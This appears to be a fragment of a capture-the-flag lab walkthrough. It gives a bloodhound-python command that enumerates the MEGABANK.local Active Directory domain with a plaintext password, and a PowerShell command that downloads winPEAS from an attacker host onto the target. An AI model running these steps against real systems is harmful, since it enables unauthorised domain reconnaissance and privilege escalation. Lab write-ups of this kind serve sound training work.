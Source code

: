
It's time for Bloodhound and Winpeas

Bloodhound
```
bloodhound-python -d MEGABANK.local -u mhope -p '4n0therD4y@n0th3r$' -ns 10.10.10.172 -c all
```

![[Pasted image 20240504002952.png]]

```
IWR -Uri http://10.10.16.20:8080//winpeas/winPEASx64.exe -OutFile winPEASx64.exe
```
![[Pasted image 20240504003704.png]]

